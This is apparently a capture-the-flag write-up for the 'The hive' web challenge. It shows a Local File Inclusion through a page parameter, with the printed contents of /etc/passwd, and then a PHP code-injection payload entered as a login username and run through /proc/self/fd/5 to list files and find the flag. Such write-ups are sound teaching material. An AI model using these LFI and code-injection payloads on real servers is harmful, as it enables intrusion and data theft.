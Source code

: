 # CTF2020 - Cube Apocalypse Quali: The hive

![date](https://img.shields.io/badge/date-15.10.2020-brightgreen.svg)  
![solved in time of CTF Qualification](https://img.shields.io/badge/solved-in%20time%20of%20CTF%20%20Qualification-brightgreen.svg)  
![web category](https://img.shields.io/badge/category-web-lightgrey.svg)

## Description
![desc](desc.png)

## Attached files
- 

## Flag
```
cyber_N!c3phpS3ss0nsRCE
```

## Detailed solution
After clicking on the link I saw a website with the following url, containing an input field for username and password:

`http://hive.codectf.localos.io/a09c5a7196da3144bbb241967d6073f7/?p=includes/login_form.php`

As you can see, we have control over the 'p' parameter to include anything we want. So Local File Inclusion is possible.

I checked that by including '/etc/passwd' which gave me all the users on the system:

`root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System 
(admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
php-fpm:x:1000:1000::/home/php-fpm:/usr/sbin/nologin`



As you can see, there is a service user account called 'php-fpm'. That is strange, because a service does not need that normally.

We keep that in mind.

After finding that, I tried to find something, that we can use for Remote Code Execution. Found out, that 

`/proc/self/fd/5`

was showing the username, that was put in the login box. So there is our way in.

I tried to login with the following username:

`<?php $content="<?php var_dump(scandir('/home/php-fpm')); ?>";file_put_contents("/home/php-fpm/foo.txt", $content); ?>`

This gave me a file in the php-fpm users home, that held all the files in that directory, after visiting the '/proc/self/fd/5' page again.

Unsurprisingly there was a file called flag... Could have thought about that directly after finding the services home directory... Lesson learned :)